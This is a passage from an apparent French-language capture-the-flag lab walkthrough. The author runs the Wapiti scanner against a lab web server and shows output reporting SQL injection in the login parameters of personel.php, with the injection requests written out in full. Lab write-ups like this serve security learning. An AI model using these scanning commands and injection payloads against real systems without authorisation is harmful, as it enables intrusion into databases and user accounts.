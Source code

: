 On a ici un dossier `uploads` vide et une page de login qui n'était pas référencé par les deux pages visibles.

Je lance Wapiti pour qu'il scanne le site en prenant en compte la page de login :

```bash
wapiti -u http://192.168.56.179/ -s http://192.168.56.179/login.php -v2 --color
```

Pas trop de surprises à y trouver une faille SQL, car dans la page de login, on voyait une vérification en Javascript sur la présence d'une apostrophe.

```
[*] Launching module sql
[+] GET http://192.168.56.179/ (0)
[+] GET http://192.168.56.179/hakkimizda.php (1)
[+] GET http://192.168.56.179/index.php (1)
[+] GET http://192.168.56.179/login.php (0)
[+] GET http://192.168.56.179/personel.php (1)
[+] POST http://192.168.56.179/personel.php (1)
        data: kullanici_adi=wapiti2021%40mailinator.com&parola=Letm3in_
[¨] POST http://192.168.56.179/personel.php (1)
        data: kullanici_adi=wapiti2021%40mailinator.com%C2%BF%27%22%28&parola=Letm3in_
---
SQL Injection (DBMS: MySQL) in http://192.168.56.179/personel.php via injection in the parameter kullanici_adi
Evil request:
    POST /personel.php HTTP/1.1
    host: 192.168.56.179
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.56.179/login.php
    content-length: 72
    Content-Type: application/x-www-form-urlencoded

    kullanici_adi=wapiti2021%40mailinator.com%C2%BF%27%22%28&parola=Letm3in_
---
[¨] POST http://192.168.56.179/personel.php (1)
        data: kullanici_adi=wapiti2021%40mailinator.com&parola=Letm3in_%C2%BF%27%22%28
---
SQL Injection (DBMS: MySQL) in http://192.168.56.179/personel.php via injection in the parameter parola
Evil request:
    POST /personel.php HTTP/1.1
    host: 192.168.56.179
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.56.179/login.php
    content-length: 72
    Content-Type: application/x-www-form-urlencoded

    kullanici_adi=wapiti2021%40mailinator.com&parola=Letm3in_%C2%BF%27%22%28
---
```
